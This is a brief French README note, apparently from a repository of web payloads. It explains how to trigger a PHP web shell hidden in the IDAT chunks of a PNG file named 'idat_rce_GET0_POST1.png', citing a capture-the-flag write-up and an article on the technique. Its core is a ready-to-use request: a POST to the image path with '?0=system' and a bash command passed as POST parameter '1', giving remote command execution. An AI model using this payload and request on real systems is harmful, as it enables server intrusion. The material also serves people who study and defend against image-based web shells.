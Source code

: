 # Notes

- Pour utiliser le payload `idat_rce_GET0_POST1.png` :

  - https://www.aperikube.fr/docs/ndhquals_2018/pixeditor/

  - https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

  - Faire la requête suivante :

    ```
    POST /image/path?0=system
    
    1=commande_bash (paramètres POST)


